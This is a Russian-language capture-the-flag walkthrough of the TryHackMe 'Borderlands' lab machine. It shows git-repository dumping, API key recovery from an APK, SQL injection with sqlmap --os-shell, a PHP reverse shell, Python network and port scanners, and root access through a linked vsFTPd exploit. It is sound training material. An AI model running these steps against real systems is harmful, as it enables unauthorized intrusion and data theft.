

# Borderlands

:white_check_mark:  [**GitHack_and_getting_files_from_git**](#GitHack_and_getting_files_from_git)

:white_check_mark:  [**Apk_Reversing**](#Apk_Reversing)

:white_check_mark:  [**Sqlmap_reverse_shell**](#Sqlmap_reverse_shell)

:white_check_mark:  [**Python_ip_scanner**](#Python_ip_scanner)

:white_check_mark:  [**Python_port_scanner**](#Python_port_scanner)
___

## Enumeration
Сканируем ip командой:
```
nmap -p- -sC -sV --open borderlands.thm
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9c:b3:f8:f6:a6:d6:c7:5e:f3:ea:72:d8:c5:8a:d3:1a (RSA)
|   256 ce:2d:c5:c0:b0:e0:1e:3d:c7:5b:aa:14:8b:1e:c7:10 (ECDSA)
|_  256 b9:ae:68:f2:93:38:d4:d1:4b:c4:b2:68:ea:98:e1:4c (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Context Information Security - HackBack 2
| http-git: 
|   10.10.45.70:80/.git/
|     Git repository found!
|     .git/config matched patterns 'user'                                                                            
|     Repository description: Unnamed repository; edit this file 'description' to name the...                        
|_    Last commit message: added mobile apk for beta testing.                                                        
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Главная страница **borderlands.thm**:


<a name="GitHack_and_getting_files_from_git"></a>

Из того, что там выдал nmap, мы можем заметить диекторию /.git. Попробуем достать содержимое с помощью GitHack.
```
python GitHack.py http://10.10.45.70/.git/
```


Также воспользуемся утилитой git_dumper.
```
python3 git_dumper.py http://borderlands.thm /home/fobblified/Tryhackme/Borderlands
```

В файле api.php мы можем найти некоторые ключи:
```
WEBLhvOJAH8d50Z4y5G5
ANDVOWLDLAS5Q8OQZ2tu
GITtFi80llzs4TxqMWtC
```


А в файле home.php web API ключ.
```
WEBLhvOJAH8d50Z4y5G5g4McG1GMGD
```


Мы также моем сделать это без помощи утилит. В файле /.git/logs/HEAD мы можем заметить, что в одном из коммитов автор удалил конфиденциальные данные. Но мы можем обратиться к предыдущему коммиту, где эти данные еще были.
```
79c9539b6566b06d6dec2755fdf58f5f9ec8822f
```


Скачаем этот коммит.
```
borderlands.thm/.git/objects/79/c9539b6566b06d6dec2755fdf58f5f9ec8822f
```

Создадим папку .git командой:
```
git init
```

В папке objects создадим папку - первые два символа коммита.
```
cd /.git/objects

mkdir 79
```

Переместим ранее скачанное в эту папку.
```
mv c9539b6566b06d6dec2755fdf58f5f9ec8822f /.git/objects/79
```

Прочитаем коммит.
```
git cat-file -p 79c9539b6566b06d6dec2755fdf58f5f9ec8822f
```


Проделав так еще несколько раз, мы прийдем к тем файлам, которые нам удалось получить ранее.


<a name="Apk_Reversing"></a>

Перейдем к приложению, которое можно скачать на главной страице сайта. Для того, чтобы просмотреть содержиое приложения, будем использовать jadx.
```
jadx-gui
```

В декомпиляторе jadx переменная зашифрованного ключа называется encrypted_api_key.


После этого, зареверсим приложение с помощью apktool, а после выполним поиск имени переменной.
```
apktool decode mobile-app-prototype.apk

grep -r 'encrypted_api_key'
```


```
CBQOSTEFZNL5U8LJB2hhBTDvQi2zQo
```

Мы имеем API ключ в зашифрованном виде. Ранее мы могли найти первые символы ключа.
```
CBQOSTEFZNL5U8LJB2hhBTDvQi2zQo
ANDVOWLDLAS5Q8OQZ2tu
```

Воспользуемся декодером шифра виженера, чтобы получить верный API ключ.


Получаем еще один ключ.

Перейдем к сайту. Ранее в приложении мы могли онаружить параметры, которые мы могли отправить странице /api.php.
```
/api.php?documentid={}&apikey=
```

Подставим API ключ и случайный id документа.
```
borderlands.thm/api.php?apikey=WEBLhvOJAH8d50Z4y5G5g4McG1GMGD&documentid=1
```


<a name="Sqlmap_reverse_shell"></a>

Мы получаем какие-то файлы. Попробуем после единицы поставить символ **'**. И мы увидим, что сайт уязвим к sql иньекции.


Перехватим запрос с помощью Burp и сохраним данный запрос в текстовый файл.


Теперь же мы будем использовать sqlmap, чтобы вытащить таблицы из базы данных.
```
sqlmap -r req.txt --dbs --batch
```


Пробросим обратную оболочку использую sqlmap.
```
sqlmap -r req.txt -D myfirstwebsite --os-shell
```


Sqlmap поставил свой загрузчик файлов на машину. Воспользуемся этим, чтобы загрузить свой php reverse shell.


Запускаем слушатель и открываем файл через строку поиска. Получаем доступ к машине.


Для дальнейшего продвижения, просмотрим все сетевые адреса хоста.
```
hostname -I
```


<a name="Python_ip_scanner"></a>

Для того чтобы разведать все ip-адреса будет использовать python.
```
import socket
for i in range(0, 256):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.settimeout(0.5)
    ip = '172.16.1.{}'.format(i)
    if 0 == sock.connect_ex((ip, 22)):
        sock.close()
        print(ip + '   ON' , flush=True)
    else:
        print(ip,  flush=True)
```

Теперь когда мы просканировали ip-адреса, просмотрим ARP-таблицу.
```
ip -s neigh
```


<a name="Python_port_scanner"></a>

Теперь, когда мы знаем, к каим адресам у нас есть доступ, просканируем их на открытые порты.
```
import socket
import threading

target = "172.16.1.128"                                         
def port_scanner(port):
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target, port))
        print(f"Port {port} is open")
    except:
        pass


for port in range(1,10000):
    thread = threading.Thread(target =port_scanner, args=[port])
    thread.start()
```


Закинем на машину netcat и попробуем подключиться к 21-му порту. 


Поискав эксплоит к vsFTPd 2.3.4 можно найти следующий [сплоит](https://www.exploit-db.com/exploits/49757)

Воспользуемся эксплоитом.


Мы получили рута.

